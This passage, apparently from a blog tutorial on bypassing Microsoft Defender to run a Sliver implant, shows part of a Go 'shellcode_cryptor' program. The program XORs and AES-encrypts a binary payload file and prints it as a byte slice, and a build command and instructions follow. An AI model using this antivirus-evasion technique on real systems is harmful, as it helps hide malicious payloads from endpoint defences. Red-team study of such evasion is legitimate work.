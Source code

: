 ``` go
		if i < len(slice)-1 {
			fmt.Print(",")
		}
	}
	fmt.Println("}")
}

func main() {
	// Read content binary file
	fileContent, err := ioutil.ReadFile("FAR_LIVESTOCK.bin")
	if err != nil {
		fmt.Println("Error reading file:", err)
		return
	}

	// XOR
	xoredData := make([]byte, len(fileContent))
	for i := range fileContent {
		xoredData[i] = fileContent[i] ^ xorKey[i%len(xorKey)]
	}

	// AES encryption
	encryptedData, err := aesEncrypt(xoredData, []byte(aesKey))
	if err != nil {
		fmt.Println("Error encrypting data:", err)
		return
	}

	// Print formatted byte slice
	printFormattedByteSlice(encryptedData)
}

```

```bash
GOOS=linux GOARCH=amd64 go build shellcode_cryptor.go
```

![](/assets/posts/2023-12-10-bypassing-defender-to-run-sliver/shellcode_encrypt.bmp)

After running the encryptor program, we redirect the byte slice output to a file due to its size, which could fill up the terminal. I recommend downloading Sublime for the next portion, as it handles editing files with large amounts of data best, in my opinion.
